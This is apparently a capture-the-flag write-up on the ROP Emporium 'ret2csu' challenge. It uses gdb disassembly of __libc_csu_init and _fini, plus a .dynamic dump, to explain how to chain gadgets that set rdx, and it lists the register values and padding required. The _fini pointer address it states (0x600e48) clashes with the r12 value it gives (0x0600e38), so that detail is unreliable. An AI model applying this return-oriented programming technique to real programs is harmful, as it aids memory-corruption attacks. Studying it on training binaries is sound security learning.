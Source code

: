 # ret2csu - 64bit

The challenge is testing our ability to load a value into a register of a tiny binary. Spoilers, we do not have the correct gadgets to load the parameter into the 3rd register `rdx`.

We need to implement an attack known as `ret2csu`. This is effectively using gadgets present in what is known as "attached code".

We need to look at the `__libc_csu_init` decompilation.

```
gdb-peda$ disas __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000400840 <+0>:	push   r15
   0x0000000000400842 <+2>:	push   r14
   0x0000000000400844 <+4>:	mov    r15,rdx
   0x0000000000400847 <+7>:	push   r13
   0x0000000000400849 <+9>:	push   r12
   0x000000000040084b <+11>:	lea    r12,[rip+0x2005be]        # 0x600e10
   0x0000000000400852 <+18>:	push   rbp
   0x0000000000400853 <+19>:	lea    rbp,[rip+0x2005be]        # 0x600e18
   0x000000000040085a <+26>:	push   rbx
   0x000000000040085b <+27>:	mov    r13d,edi
   0x000000000040085e <+30>:	mov    r14,rsi
   0x0000000000400861 <+33>:	sub    rbp,r12
   0x0000000000400864 <+36>:	sub    rsp,0x8
   0x0000000000400868 <+40>:	sar    rbp,0x3
   0x000000000040086c <+44>:	call   0x400560 <_init>
   0x0000000000400871 <+49>:	test   rbp,rbp
   0x0000000000400874 <+52>:	je     0x400896 <__libc_csu_init+86>
   0x0000000000400876 <+54>:	xor    ebx,ebx
   0x0000000000400878 <+56>:	nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400880 <+64>:	mov    rdx,r15
   0x0000000000400883 <+67>:	mov    rsi,r14
   0x0000000000400886 <+70>:	mov    edi,r13d
   0x0000000000400889 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:	add    rbx,0x1
   0x0000000000400891 <+81>:	cmp    rbp,rbx
   0x0000000000400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:	add    rsp,0x8
   0x000000000040089a <+90>:	pop    rbx
   0x000000000040089b <+91>:	pop    rbp
   0x000000000040089c <+92>:	pop    r12
   0x000000000040089e <+94>:	pop    r13
   0x00000000004008a0 <+96>:	pop    r14
   0x00000000004008a2 <+98>:	pop    r15
   0x00000000004008a4 <+100>:	ret    
End of assembler dump.
```

We have two sets of gadgets we can use:


```
0x0000000000400880 <+64>:	mov    rdx,r15
0x0000000000400883 <+67>:	mov    rsi,r14
0x0000000000400886 <+70>:	mov    edi,r13d
0x0000000000400889 <+73>:	call   QWORD PTR [r12+rbx*8]
0x000000000040088d <+77>:	add    rbx,0x1
0x0000000000400891 <+81>:	cmp    rbp,rbx
0x0000000000400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
0x0000000000400896 <+86>:	add    rsp,0x8
[...]
```

And

```
0x040089a <+90>:	pop    rbx
0x040089b <+91>:	pop    rbp
0x040089c <+92>:	pop    r12
0x040089e <+94>:	pop    r13
0x04008a0 <+96>:	pop    r14
0x04008a2 <+98>:	pop    r15
0x04008a4 <+100>:	ret    
```

Therefore, if we can `pop` our value into `r15` we can `mov` it into `rdx` with the first chain.

However, we have a few issues, the first chain does not end with a `ret` and flows into the second, therefore it looks a little more like this:

Chain #1
```
0x0400880 <+64>:	mov    rdx,r15
0x0400883 <+67>:	mov    rsi,r14
0x0400886 <+70>:	mov    edi,r13d
0x0400889 <+73>:	call   QWORD PTR [r12+rbx*8]
0x040088d <+77>:	add    rbx,0x1
0x0400891 <+81>:	cmp    rbp,rbx
0x0400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
0x0400896 <+86>:	add    rsp,0x8
0x040089a <+90>:	pop    rbx
0x040089b <+91>:	pop    rbp
0x040089c <+92>:	pop    r12
0x040089e <+94>:	pop    r13
0x04008a0 <+96>:	pop    r14
0x04008a2 <+98>:	pop    r15
0x04008a4 <+100>:	ret  
```

Chain #2
```
0x040089a <+90>:	pop    rbx
0x040089b <+91>:	pop    rbp
0x040089c <+92>:	pop    r12
0x040089e <+94>:	pop    r13
0x04008a0 <+96>:	pop    r14
0x04008a2 <+98>:	pop    r15
0x04008a4 <+100>:	ret    
```

We have a couple of hoops to jump through if we want to deal with Chain #1 correctly.

The first is the `call` command:

```
0x0400889 <+73>:	call   QWORD PTR [r12+rbx*8]
```

This caused some issues, but after reading through a post by [w3ndige](https://www.rootnetsec.com/ropemporium-ret2csu/) that talked about another [post](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html). This can be solved by redirecting the flow to the `_fini` section of the binary.

If we decompile the function we see it does literally nothing:

```
gdb-peda$ disas _fini
Dump of assembler code for function _fini:
   0x04008b4 <+0>:	sub    rsp,0x8
   0x04008b8 <+4>:	add    rsp,0x8
   0x04008bc <+8>:	ret    
End of assembler dump.
```

This is a great place to redirect the flow to prevent a `SIGSEGV`.

The next hoop is a set of comparison instructions:

```
0x040088d <+77>:	add    rbx,0x1
0x0400891 <+81>:	cmp    rbp,rbx
0x0400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
```
We can find a pointer to this address in the `.dynamic` section of the executable

This can be seen using `gdb` at a breakpoint:

```
gdb-peda$ x/10g &_DYNAMIC
0x600e20:       0x0000000000000001      0x0000000000000001
0x600e30:       0x000000000000000c      0x0000000000400560
0x600e40:       0x000000000000000d      0x00000000004008b4
0x600e50:       0x0000000000000019      0x0000000000600e10
0x600e60:       0x000000000000001b      0x0000000000000008
```

Position `0x600e48` has a pointer (`0x00000000004008b4`) to the method `_fini`. This will prevent the program from segfaulting.

We need to, therefore, make sure that `rbx` and `rbp` are equal. Means starting `rbp` as `0x1` and `rbx` as `0x0`.

The final issues is a `add rsp, 0x8` command. This will move the stack down eight values and, thus, padding will be required to keep the exploit on track.

In summary:

`r15` - 0xdeadcafebabebeef
`rbp` - 0x1
`rbx` - 0x0
`r12` - Address of `_fini` (0x0600e38)

Plus padding is correct places. This will be needed for redundant `pop` and `add rsp, 0x8` commands.

Adding these all together in the `exploit.py` gives a working exploit!